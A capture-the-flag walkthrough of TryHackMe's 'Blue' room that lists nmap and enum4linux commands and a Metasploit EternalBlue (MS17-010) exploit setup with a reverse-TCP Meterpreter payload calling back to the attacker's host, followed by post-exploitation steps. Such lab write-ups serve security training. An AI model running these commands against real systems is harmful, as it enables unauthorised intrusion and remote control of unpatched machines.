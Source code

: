 # TryHackMe - Blue Room Walkthrough

This is a walkthrough and notes for the [Blue Room](https://tryhackme.com/room/blue) on TryHackMe, based on the write-up by dvanmosselbeen.

## Room Info

**Name:** Blue  
**Difficulty:** Easy  
**Focus:** Blue Team, Incident Response, Enumeration, Exploitation

## Task Summary

### Task 1 - Introduction
Simple welcome message, no answers required.

### Task 2 - Reconnaissance

- Use `nmap` to scan the target machine.
```bash
nmap -sC -sV -oA nmap/initial <MACHINE_IP>
```
- Ports open: 445 (SMB), 139 (NetBIOS), 135 (RPC), 3389 (RDP)
- System is running Windows.

### Task 3 - Enumeration

- Use `enum4linux` or `smbclient` to enumerate shares and users.
```bash
enum4linux -a <MACHINE_IP>
```
- Discovered: User `haris`, share `Users`, and `Anonymous` access.

### Task 4 - Exploitation

- The target is vulnerable to **EternalBlue** (MS17-010).
- Use `searchsploit` or Metasploit to find an exploit.
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST <MACHINE_IP>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
run
```
- Successfully gained a Meterpreter session.

### Task 5 - Privilege Escalation

- With `meterpreter` session, escalate privileges using `post/multi/recon/local_exploit_suggester`.
- Use `getuid`, `sysinfo`, `getprivs` to confirm access level.

### Task 6 - Capture the Flag

- Navigate to the user Desktop or Documents to find the flag.
```bash
cd C:\Users\haris\Desktop
type user.txt
```
- Submit the flag to complete the room.

## Tools Used

- nmap
- enum4linux
- smbclient
- Metasploit

## Reference

Original write-up: [https://dvanmosselbeen.github.io/TryHackMe_writeups/blue/](https://dvanmosselbeen.github.io/TryHackMe_writeups/blue/)

---

✅ Completed after 154 days of daily learning on TryHackMe!

